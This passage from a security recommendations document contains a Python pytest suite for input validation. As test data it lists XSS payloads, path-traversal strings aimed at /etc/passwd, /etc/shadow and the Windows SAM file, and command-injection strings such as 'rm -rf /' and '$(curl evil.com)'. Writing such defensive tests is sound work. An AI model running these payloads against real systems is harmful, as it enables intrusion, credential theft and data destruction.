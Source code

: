 
---

## Additional Recommendations

### 10. **Security Testing** 🧪

Add security-specific tests to the test suite:

```python
# Add to tests/test_security.py

import pytest
from security_config import InputValidator, SecurityManager

class TestInputValidation:
    """Test input validation security"""
    
    def test_xss_prevention(self):
        """Test XSS attack prevention"""
        malicious_inputs = [
            '<script>alert("xss")</script>',
            'javascript:alert(1)',
            '<img src=x onerror=alert(1)>',
            '<iframe src="evil.com"></iframe>'
        ]
        
        validator = InputValidator()
        for malicious in malicious_inputs:
            sanitized = validator.sanitize_text(malicious)
            assert '<script' not in sanitized.lower()
            assert 'javascript:' not in sanitized.lower()
            assert '<iframe' not in sanitized.lower()
    
    def test_path_traversal_prevention(self):
        """Test path traversal attack prevention"""
        malicious_paths = [
            '../../../etc/passwd',
            '..\\..\\..\\windows\\system32',
            '/etc/shadow',
            'C:\\Windows\\System32\\config\\SAM'
        ]
        
        security = SecurityManager()
        for malicious in malicious_paths:
            assert not security.validate_file_operation(malicious)
    
    def test_command_injection_prevention(self):
        """Test command injection prevention"""
        malicious_inputs = [
            'test; rm -rf /',
            'test && cat /etc/passwd',
            'test | whoami',
            'test $(curl evil.com)',
            'test `whoami`'
        ]
        
        validator = InputValidator()
        for malicious in malicious_inputs:
            sanitized = validator.sanitize_text(malicious)
            assert ';' not in sanitized
            assert '|' not in sanitized
            assert '`' not in sanitized
            assert '$' not in sanitized

```